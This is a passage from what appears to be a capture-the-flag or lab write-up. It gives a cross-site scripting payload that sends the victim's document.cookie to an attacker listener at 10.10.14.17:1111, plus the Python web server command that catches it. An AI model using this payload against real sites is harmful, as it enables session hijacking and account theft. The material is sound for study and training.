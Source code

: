 I used a basic payload since there is no need to bypass anything:

```html
<script>document.location='http://10.10.14.17:1111/?c='+document.cookie;</script>
```

Don't forget to start the web server:

```sh
python3 -m http.server 1111
```

![](/assets/images/Pasted%20image%2020250203043104.png)
